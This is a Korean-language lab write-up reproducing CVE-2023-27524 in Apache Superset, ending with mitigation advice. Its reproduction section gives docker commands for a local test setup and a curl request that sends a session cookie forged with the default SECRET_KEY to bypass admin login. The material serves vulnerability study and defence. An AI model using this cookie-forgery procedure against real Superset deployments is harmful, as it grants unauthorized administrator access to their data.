




# Apache Superset 인증 우회(CVE-2023-27524)

### 요약

- Apache Superset은 웹 기반의 데이터 시각화를 위한 오픈소스 플랫폼으로, 세션 쿠키 서명용 SECRET_KEY에 공개적으로 알려진 기본값을 그대로 사용하는 경우 공격에 취약할 수 있다.
- 관리자가 이를 바꾸지 않으면 공격자가 이 기본값으로 세션 쿠키를 위조해 관리자 등 임의 사용자로 인증할 수 있다.

### 환경 구성

다음 명령을 실행하여 테스트 환경을 구축한다.

```bash
docker compose up -d
```
`http://localhost:8088/` 에 방문하여 환경이 성공적으로 구축되었는지 확인할 수 있다.



### 재현 절차

poc 컨테이너 안에서 poc.py를 실행한다. 기본 SECRET_KEY로 관리자(user_id=1) 세션 쿠키를 위조하고, 위조한 쿠키가 실제로 통하는지 검증한다.(취약점 확인이 편하도록 Python 3.11, curl, flask-unsign==1.2.0, requests가 설치된 poc 컨테이너를 활용한다.)

```bash
docker compose exec poc python poc.py
```

출력된 `Forged session cookie` 값을 그대로 이용해, curl로 요청을 보내 관리자 인증을 우회한다.



```bash
docker compose exec poc curl -s -w "HTTP_STATUS:%{http_code}" -H "Cookie: session=[출력된 forged 쿠키]" http://web:8088/api/v1/database/
```

`HTTP_STATUS:200`의 응답과 함께 데이터베이스 목록 JSON이 반환되면, 로그인 절차 없이 인증 우회에 성공한 것을 확인할 수 있다.



### 실행 결과

개발자 도구(F12)를 통해 `session` 값을 위에서 위조한 쿠키로 교체하여 새로고침한다. 이를 통해 로그인 없이 관리자 대시보드를 확인할 수 있다.



### 대응방안

- SECRET_KEY를 랜덤 값으로 교체하고, 문서/템플릿의 기본값을 그대로 쓰지 않는다. 
- Superset 2.1 이상으로 업데이트한다.
